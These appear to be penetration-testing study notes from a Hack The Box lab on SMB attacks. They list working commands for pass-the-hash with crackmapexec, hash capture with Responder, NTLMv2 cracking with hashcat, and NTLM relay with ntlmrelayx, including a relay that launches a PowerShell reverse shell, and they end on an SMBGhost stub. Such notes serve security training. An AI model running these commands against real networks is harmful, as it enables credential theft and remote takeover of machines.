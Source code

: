 - Pass-the-hash (PtH)
```shell
Sauuron@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

#### <span style="color:#9fef00"> Forced Authentication Attacks</span>

- Capturing NetNTLM v1/v2 hashes 

Responder
```shell
Sauuron@htb[/htb]$ responder -I <interface name>
```


- The hostname file share's IP address is required.
- The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
- If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
- Is there no local DNS record? A query will be sent to the DNS server that has been configured.
- If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

<mark style="background: #FF5582A6;color:white">**Note:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.</mark>

hashcat crack NTLMv2
```shell
Sauuron@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```shell
Sauuron@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off # set to ON
```

impacket-ntlmrelayx
```shell
Sauuron@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146 # -c to dummp sam database
```

Execute command 
```shell-session
Sauuron@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <Rev-shell>'
```

### <span style="color :red "> SMBGhost</span> [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow)
Effected Windows 10 versions 1903  & 1909
